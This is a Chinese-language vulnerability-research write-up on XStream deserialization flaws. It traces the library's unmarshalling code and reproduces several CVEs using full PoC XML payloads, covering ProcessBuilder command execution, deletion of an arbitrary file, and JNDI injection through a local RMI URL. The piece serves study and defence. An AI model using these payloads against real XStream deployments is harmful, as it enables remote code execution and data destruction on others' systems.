# 历史漏洞

| XStream 远程代码执行漏洞 | CVE-2013-7285                                                | XStream <= 1.4.6或1.4.10 |
| ------------------------ | ------------------------------------------------------------ | ------------------------ |
| XStream XXE              | [CVE-2016-3674](https://x-stream.github.io/CVE-2016-3674.html) | `XStream` <= 1.4.8       |
| XStream 远程代码执行漏洞 | CVE-2019-10173                                               | `XStream` < 1.4.10       |
| XStream 远程代码执行漏洞 | [CVE-2020-26217](https://x-stream.github.io/CVE-2020-26217.html) | `XStream` <= 1.4.13      |
| XStream 远程代码执行漏洞 | [CVE-2021-21344](https://x-stream.github.io/CVE-2021-21344.html) | `XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21345](https://x-stream.github.io/CVE-2021-21345.html) | `XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21346](https://x-stream.github.io/CVE-2021-21346.html) | `XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21347](https://x-stream.github.io/CVE-2021-21347.html) | `XStream`<= 1.4.15       |
| XStream 远程代码执行漏洞 | [CVE-2021-21350](https://x-stream.github.io/CVE-2021-21350.html) | `XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21351](https://x-stream.github.io/CVE-2021-21351.html) | `XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-29505](https://x-stream.github.io/CVE-2021-29505.html) | `XStream`: <= 1.4.16     |

# Xstream简介

XStream是一个简单的基于Java库，Java对象序列化到XML，反之亦然(即：可以轻易的将Java对象和xml文档相互转换)

可以用下面两个类来看看

```java
package XStream;

import java.io.IOException;
import java.io.Serializable;

public class People implements Serializable{
    private String name;
    private int age;
    private Company workCompany;

    public People(String name, int age, Company workCompany) {
        this.name = name;
        this.age = age;
        this.workCompany = workCompany;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public Company getWorkCompany() {
        return workCompany;
    }

    public void setWorkCompany(Company workCompany) {
        this.workCompany = workCompany;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("调用了People的readObject");
    }
}
```

```java
package XStream;

import java.io.IOException;
import java.io.Serializable;

public class Company implements Serializable {
    private String companyName;
    private String companyLocation;

    public Company(String companyName, String companyLocation) {
        this.companyName = companyName;
        this.companyLocation = companyLocation;
    }

    public String getCompanyName() {
        return companyName;
    }

    public void setCompanyName(String companyName) {
        this.companyName = companyName;
    }

    public String getCompanyLocation() {
        return companyLocation;
    }

    public void setCompanyLocation(String companyLocation) {
        this.companyLocation = companyLocation;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("调用了company的readObject");
    }
}
```

```
package XStream;

import com.thoughtworks.xstream.XStream;

public class test {
    public static void main(String[] args) throws Exception{
        XStream xStream = new XStream();
        People people = new People("xiaoming",25,new Company("TopSec","BeiJing"));
        String xml = xStream.toXML(people);
        System.out.println(xml);

//        People people1 = (People)xStream.fromXML(xml);
//        System.out.println(people1);
    }
}
```

输出效果

```
<XStream.People serialization="custom">
  <XStream.People>
    <default>
      <age>25</age>
      <name>xiaoming</name>
      <workCompany serialization="custom">
        <XStream.Company>
          <default>
            <companyLocation>BeiJing</companyLocation>
            <companyName>TopSec</companyName>
          </default>
        </XStream.Company>
      </workCompany>
    </default>
  </XStream.People>
</XStream.People>
```

但是假如这两个类没有实现serializable接口，得到数据是这样的

```
<XStream.People>
  <name>xiaoming</name>
  <age>25</age>
  <workCompany>
    <companyName>TopSec</companyName>
    <companyLocation>BeiJing</companyLocation>
  </workCompany>
</XStream.People>
```

 这里实现serializable接口和没有实现生成的数据是不一样的

这两个的差异是什么呢，可以在TreeUnmarshaller类的convertAnother方法处下断点

```
TreeUnmarshaller 树解组程序，调用mapper和Converter把XML转化成java对象，里面的start方法开始解组，convertAnother方法把class转化成java对象。

TreeMarshaller 树编组程序，调用mapper和Converter把java对象转化成XML，里面的start方法开始编组，convertAnother方法把java对象转化成XML
```

测试代码

```
public static void main(String[] args) throws Exception{
    XStream xStream = new XStream();
    People people = new People("xiaoming",25,new Company("TopSec","BeiJing"));
    String xml = xStream.toXML(people);
    System.out.println(xml);
    People people1 = (People)xStream.fromXML(xml);
    System.out.println(people1);
}
```

在没有实现serializable接口的时候，最后这里的converter是ReflectionConverter



这里的converter，翻译就是转换器，Xstream的思路是通过不同的converter来处理序列化数据中不同类型的数据，该Converter的原理是通过反射获取类对象并通过反射为其每个属性进行赋值，当然不同的类型会调用不同的转换器

来看看实现了serializable接口的是什么转化器



这里是一个SerializableConverter，这时候我们在我们之前在类里面重写的readObject打断点，发现可以进去



既然可以调用重写的readObject方法，那只要有对应的可控参数和链子就可以尝试反序列化了

这里还是来看看怎么调用的readObject



这里的converter是SerializableConverter，跟它的convert方法



继续跟进



跟进到SerializableConverter的unmarshal方法



跟进doUnmarshal



跟进callReadObject



这里通过反射调用了对应类的readObject方法，所以在实现serializable接口的时候会调用对应的readObject方法

# CVE-2013-7258远程代码执行漏洞

漏洞影响范围：1.4.x<=1.4.6或1.4.10

复现环境：1.4.5

```
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.5</version>
</dependency>
```

## 漏洞复现

POC

```
package XStream;

import com.thoughtworks.xstream.XStream;

public class Unser {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "        <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd</string>\n" +
                "                    <string>/C</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "            <action>start</action>\n" +
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>";
        xStream.fromXML(xml);
    }


}
```



## 漏洞分析

从fromXML下断点一路跟到了TreeUnmarshaller#start



跟进readClassType来获取对应节点的class

```java
public static Class readClassType(HierarchicalStreamReader reader, Mapper mapper) {
    String classAttribute = readClassAttribute(reader, mapper);
    Class type;
    if (classAttribute == null) {
        type = mapper.realClass(reader.getNodeName());
    } else {
        type = mapper.realClass(classAttribute);
    }

    return type;
}
```

跟进readClassAttribute

```java
public static String readClassAttribute(HierarchicalStreamReader reader, Mapper mapper) {
    String attributeName = mapper.aliasForSystemAttribute("resolves-to");
    String classAttribute = attributeName == null ? null : reader.getAttribute(attributeName);
    if (classAttribute == null) {
        attributeName = mapper.aliasForSystemAttribute("class");
        if (attributeName != null) {
            classAttribute = reader.getAttribute(attributeName);
        }
    }

    return classAttribute;
}
```

aliasForSystemAttribute方法是获取别名，这里是获取了resolves-to和class，来判断xml中有没有这两个属性，没有的话则返回空，这里返回的空

回到readClassType，进入if，通过realClass来获取当前节点的名称然后返回对应的Class对象



最后返回的是SortedSet

回到start方法，调用convertAnother方法，跟进去看看



defaultImplementationOf方法是根据mapper获取type的实现类，只是获取到了TreeSet


然后调用lookupConverterForType获取对应的的转换器（converter）



通过循环遍历调用Converter.canConvert()来匹配是否能转换出TreeSet类型，最后找到了一个TreeSetConverter进行返回

最后回到convertAnother，然后调用convert方法


```java
protected Object convert(Object parent, Class type, Converter converter) {
    Object result;
    if (this.parentStack.size() > 0) {
        result = this.parentStack.peek();
        if (result != null && !this.values.containsKey(result)) {
            this.values.put(result, parent);
        }
    }

    String attributeName = this.getMapper().aliasForSystemAttribute("reference");
    String reference = attributeName == null ? null : this.reader.getAttribute(attributeName);
    Object cache;
    if (reference != null) {
        cache = this.values.get(this.getReferenceKey(reference));
        if (cache == null) {
            ConversionException ex = new ConversionException("Invalid reference");
            ex.add("reference", reference);
            throw ex;
        }

        result = cache == NULL ? null : cache;
    } else {
        cache = this.getCurrentReferenceKey();
        this.parentStack.push(cache);
        result = super.convert(parent, type, converter);
        if (cache != null) {
            this.values.put(cache, result == null ? NULL : result);
        }

        this.parentStack.popSilently();
    }

    return result;
}
```

这里又通过aliasForSystemAttribute来获取reference的别名，如果为空则调用getCurrentReferenceKey

`this.getCurrentReferenceKey`用来获取当前标签，也就是sorted-set

调用`this.types.push`将获取的值压入栈中，这里只是个压栈的操作，储存而已

然后跟进到super.convert



跟进unmarshal来到TreeSetConverter的unmarshal方法，在这里进行xml的解析



调用`unmarshalComparator`方法判断是否存在comparator，如果不存在，则返回NullComparator对象



于是这里的inFirstElement为true，三目运算符返回null

`possibleResult`也是创建的是一个空的`TreeSet`对象。而后则是一些赋值，就没必要一一去看了。来看到重点部分

```java
this.treeMapConverter.populateTreeMap(reader, context, treeMap, unmarshalledComparator);
```

跟进来到

```
protected void populateTreeMap(HierarchicalStreamReader reader, UnmarshallingContext context, TreeMap result, Comparator comparator) {
    boolean inFirstElement = comparator == NULL_MARKER;
    if (inFirstElement) {
        comparator = null;
    }

    SortedMap sortedMap = new PresortedMap(comparator != null && JVM.hasOptimizedTreeMapPutAll() ? comparator : null);
    if (inFirstElement) {
        this.putCurrentEntryIntoMap(reader, context, result, sortedMap);
        reader.moveUp();
    }

    this.populateMap(reader, context, result, sortedMap);

    try {
        if (JVM.hasOptimizedTreeMapPutAll()) {
            if (comparator != null && comparatorField != null) {
                comparatorField.set(result, comparator);
            }

            result.putAll(sortedMap);
        } else if (comparatorField != null) {
            comparatorField.set(result, sortedMap.comparator());
            result.putAll(sortedMap);
            comparatorField.set(result, comparator);
        } else {
            result.putAll(sortedMap);
        }

    } catch (IllegalAccessException var8) {
        throw new ConversionException("Cannot set comparator of TreeMap", var8);
    }
}
```

调用`this.putCurrentEntryIntoMap(reader, context, result, sortedMap)`，继续跟进



通过`readItem`读取标签内容，然后put到target这个map中去

回到populateTreeMap，通过reader.moveUp()往后继续解析xml

跟进 `this.populateMap(reader, context, result, sortedMap)`



跟进populateCollection



这里循环所有节点调用`addCurrentElementToCollection`

```
protected void addCurrentElementToCollection(HierarchicalStreamReader reader, UnmarshallingContext context, Collection collection, Collection target) {
    Object item = this.readItem(reader, context, collection);
    target.add(item);
}
```

这里也是解析标签内容然后添加到target这map中去

`readItem`方法

```java
protected Object readItem(HierarchicalStreamReader reader, UnmarshallingContext context, Object current) {
    Class type = HierarchicalStreams.readClassType(reader, this.mapper());
    return context.convertAnother(current, type);
}
```

读取标签内容，将其转换为对应的类，然后返回

最后在addCurrentElementToCollection中添加到map中去

跟进这里的readClassType



和之前的一样，然后返回一个type调用convertAnother



这里的流程就和之前一样了，最后跟到了DynamicProxyConverter#unmarshal



返回了一个代理类，代理的是EventHandler，回到populateTreeMap，调用了putAll



随后会调用父类的也就是Abstract的putAll



这里的key ，value就是之前添加到map的



跟进put，来到TreeMap的put


这里的k就是那个代理类，所以这里会触发对应的EventHandler#invoke方法



接着跟进invokeInternal方法



这里得到了targetMethod是`ProcessBuilder.start`



然后在这里调用到`ProcessBuilder.start`，就可以去执行相应的命令了



其实整个流程就是一个解析xml的流程

从`com.thoughtworks.xstream.core.TreeUnmarshaller#start`方法开始解析xml，调用`HierarchicalStreams.readClassType`通过标签名获取Mapper中对于的class对象。获取class完成后调用`com.thoughtworks.xstream.core.TreeUnmarshaller#convertAnother`,该方法会根据class转换为对应的Java对象。`convertAnother`的实现是`mapper.defaultImplementationOf`方法查找class实现类。根据实现类获取对应转换器，获取转换器部分的实现逻辑是`ConverterLookup`中的`lookupConverterForType`方法,先从缓存集合中查找`Converter`,遍历`converters`找到符合的`Converter`。随后，调用`convert`返回object对象。`convert`方法实现逻辑是调用获取到的`converter`转换器的`unmarshal`方法来根据获取的对象，继续读取子节点，并转化成对象对应的变量。直到读取到最后一个节点退出循环。最终获取到java对象中的变量值也都设置，整个XML解析过程就结束了

## POC2

```xml
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

之前是用的sortedset标签，然后寻找到他的实现类是TreeMap类，这里直接用tree-map也可以，获取的实现类是他本身，转换器则是`TreeMapConverter`

# CVE-2020-26217远程代码执行漏洞

## 漏洞复现

影响范围<=1.4.13

复现环境：1.4.13

POC

```
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
                                <count>0</count>
                            </in>
                        </is>
                        <consumed>false</consumed>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

## 漏洞分析

在分析之前我们先来看一个例子，以便更好的理解POC

```
package XStream;

import com.thoughtworks.xstream.XStream;

import java.util.HashMap;
import java.util.Map;

class person{
    String name;
    int age;
    public person(String name,int age){
        this.name = name;
        this.age = age;
    }
}
public class MapTest {
    public static void main(String[] args) throws Exception{
        Map map = new HashMap();
        map.put(new person("DawnT0wn", 20), "test");

        XStream xStream = new XStream();
        String xml = xStream.toXML(map);
        System.out.println(xml);
    }
}
```

输出效果

```
<map>
  <entry>
    <XStream.person>
      <name>DawnT0wn</name>
      <age>20</age>
    </XStream.person>
    <string>test</string>
  </entry>
</map>
```

在Xstream将Map生成xml格式数据时，会为每个Entry对象生成一个`<entry>…</entry>`元素，并将该Entry中的key与value作为其子元素顺次放置于其中第一个和第二个元素处

这里我们生程xml数据的时候，是用的一个map类型，然后map的key，value分别是一个实例化和一个字符串

最后得到了的数据可以看出来，Xstream生成xml时，其结构应遵循如下结构

```
<对象>
	<属性1>...</属性1>
	<属性2>...</属性2>
	...
</对象>
```

具体的可以在https://xz.aliyun.com/t/8694了解到

回过头来看我们的poc，先折叠一下


看到是这个样子的，这里就是一个map类型，entry的key是jdk.nashorn.internal.objects.NativeString，value是test



然后这个类里面的value属性是`com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data`这个类，这个类里面的dataHandler属性又被设置为了什么，大致意思就是这样，接下来就可以开始分析了

跟踪方法和上面一个洞差不多，可以来到一个putCurrentEntryIntoMap方法，根据标签的类型，这次来到的是MapConverter#putCurrentEntryIntoMap方法



在这之前会新建一个map，也就是target，然后会调用put，放进target这个map中去，

之前看urldns这些链子的时候就知道，map的key最后会调用到hashcode，这里的key就是jdk.nashorn.internal.objects.NativeString，然后来到了jdk.nashorn.internal.objects.NativeString的hashcode方法



跟进this.getStringValue



判断value是否实现了String接口

看看POC



这个类的value被设置为了Base64Data类，在之前的convertAnother方法已经转换为java对象，所以这里调用了com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data的toString方法



跟进这个类的get



`this.dataHandler.getDataSource().getInputStream()`

首先获取this.dataHandler的datasource属性，即是获取Base64Data对象中dataHandler属性的DataSource值，Base64Data的dataHandler属性值以及dataHandler的dataSource属性值都可以在xml中设置。poc中将dataSource设置为：com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource

所以这里就相对于调用com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource的getInputStream方法



即获取他的is属性

在poc中，这个is属性被设置为了java.io.SequenceInputStream

再跟进readFrom



这里就调用了java.io.SequenceInputStream的read方法



跟进nextStream





这里的e属性被设置为了javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator，跟进nextElenment



这些参数都是可以再xml中设置的，来到了javax.imageio.spi.FilterIterator的next



再跟进advance



poc中设置了iter参数

```
<iter class='java.util.ArrayList$Itr'>
    <cursor>0</cursor>
    <lastRet>-1</lastRet>
    <expectedModCount>1</expectedModCount>
    <outer-class>
        <java.lang.ProcessBuilder>
            <command>
                <string>calc</string>
            </command>
        </java.lang.ProcessBuilder>
    </outer-class>
</iter>
```

当iter.next()执行后，poc中构造的java.lang.ProcessBuilder被返回并赋值给elt

filter则是javax.imageio.ImageIO$ContainsFilter

跟进过来看到



调用了method.invoke传入的参数就poc构造的java.lang.ProcessBuilder

在method和elt都可控的情况下，method控制为ProcessBuilder类的start方法，因为这是个无参的方法，直接传入ProcessBuilder对象即elt即可，通过反射执行了ProcessBuilder类的start方法造成了命令执行

# CVE-2020-26259任意文件删除漏洞

## 漏洞复现

poc

```XML
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='com.sun.xml.internal.ws.util.ReadAllStream$FileStream'>
                            <tempFile>/test.txt</tempFile>
                        </is>
                    </dataSource>
                    <transferFlavors/>
                </dataHandler>
                <dataLen>0</dataLen>
            </value>
        </jdk.nashorn.internal.objects.NativeString>
        <string>test</string>
    </entry>
</map>
```

在我的根目录下创建一个txt后，运行后删除

## 漏洞分析

其实这个POC和上面CVE-2020-16217差别不大，只是is属性变了而已，继续看到这个get方法



之前是从readFrom下手，这次是从close方法下手

此时的is是com.sun.xml.internal.ws.util.ReadAllStream$FileStream，跟入`com.sun.xml.internal.ws.util.ReadAllStream$FileStream`中的close方法


这里判断tempFile只要部位空则删除，否则就打印文件不存在

# CVE-2021-21344远程代码执行漏洞

## 漏洞复现

起一个web服务



起一个恶意的rmi


POC

```xml
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
                <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
                    <packet>
                        <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
                            <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                                    <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                                        <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                                            <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                                            <uriProperties/>
                                            <attributeProperties/>
                                            <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                                                <getter>
                                                    <class>com.sun.rowset.JdbcRowSetImpl</class>
                                                    <name>getDatabaseMetaData</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName/>
                                        <context>
                                            <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                                                <outer-class reference='../..'/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
                                    </bridge>
                                </bridge>
                                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                                    <javax.sql.rowset.BaseRowSet>
                                        <default>
                                            <concurrency>1008</concurrency>
                                            <escapeProcessing>true</escapeProcessing>
                                            <fetchDir>1000</fetchDir>
                                            <fetchSize>0</fetchSize>
                                            <isolation>2</isolation>
                                            <maxFieldSize>0</maxFieldSize>
                                            <maxRows>0</maxRows>
                                            <queryTimeout>0</queryTimeout>
                                            <readOnly>true</readOnly>
                                            <rowSetType>1004</rowSetType>
                                            <showDeleted>false</showDeleted>
                                            <dataSource>rmi://127.0.0.1:1099/test</dataSource>
                                            <params/>
                                        </default>
                                    </javax.sql.rowset.BaseRowSet>
                                    <com.sun.rowset.JdbcRowSetImpl>
                                        <default>
                                            <iMatchColumns>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                            </iMatchColumns>
                                            <strMatchColumns>
                                                <string>foo</string>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                            </strMatchColumns>
                                        </default>
                                    </com.sun.rowset.JdbcRowSetImpl>
                                </jaxbObject>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```



## 漏洞分析

这次的POC的写法就和最开始介绍的一样，实现了serializable接口，回去调用对应类重写的readObject方法

就直接跟进到PriorityQueue的readObject方法，在复现CC2的时候也是从这里进去的

前面就不跟了，直接看到下图调用compare方法这里



根据poc来看



size属性被置为2是之前CC链也提过很多次的了，这里的comparator属性是sun.awt.datatransfer.DataTransferer$IndexOrderComparator类，跟进看看

```
public int compare(Object var1, Object var2) {
    return !this.order ? -compareIndices(this.indexMap, var1, var2, FALLBACK_INDEX) : compareIndices(this.indexMap, var1, var2, FALLBACK_INDEX);
}
```

跟进`compareaIndices`方法，这里的indexMap属性被设置为了com.sun.xml.internal.ws.client.ResponseContext类



var0就是之前的indexMap，跟进到ResponseContext#get方法



根据poc的参数设置，最后可以来到com.sun.rowset.JdbcRowSetImpl

看看这一段的调用栈



com.sun.rowset.JdbcRowSetImpl这个类貌似在fastjson里面用到过



跟进connect



这里获取这个类的dataSource属性，然后进行一个lookup查询，只要控制了就可以造成一个jndi注入

# CVE-2021-21345远程代码执行漏洞

## poc

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>calc</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其实还是反序列化，只是最后是通过`com.sun.corba.se.impl.activation.ServerTableEntry`类直接在本地执行恶意代码

主要还是Accessor#get方法的invoke



这里可以去调用任意类的方法

然后在ServerTableEntry#verify中直接调用了exec



然后控制activationCmd即可

其实既然可以这样去调用任意方法，那不是也可以去调用ProcessBuilder的start方法吗，我改了下poc发现居然可以

```
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
                <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
                    <packet>
                        <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
                            <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                                    <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                                        <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                                            <jaxbType>java.lang.ProcessBuilder</jaxbType>
                                            <uriProperties/>
                                            <attributeProperties/>
                                            <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                                                <getter>
                                                    <class>java.lang.ProcessBuilder</class>
                                                    <name>start</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName/>
                                        <context>
                                            <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                                                <outer-class reference='../..'/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
                                    </bridge>
                                </bridge>
                                <jaxbObject class='java.lang.ProcessBuilder'>
                                    <command>
                                        <string>calc</string>
                                    </command>
                                </jaxbObject>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

# 写在最后

XStream组件的漏洞并没有复现完，但是大多数都是这个思路，通过标签转换可以获取到相应的java对象，并且可以对其中的参数进行控制，在实现serializable接口的类，还可以调用其中的readObject方法，达到一些命令执行的效果，可以是jndi，可以是直接命令执行，可以是加载恶意类

对于其他的一些洞也没有去进行相应的复现了，例如CVE-2021-29505 XStream远程代码执行漏洞复现，貌似是通过JRMP反序列化配合CC6达到RCE的效果


参考链接

https://www.cnblogs.com/nice0e3/p/15046895.html#0x01-xstream-%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E

https://xz.aliyun.com/t/8694#toc-2

https://paper.seebug.org/1543/#4-cve-2021-21350

https://www.freebuf.com/vuls/282683.html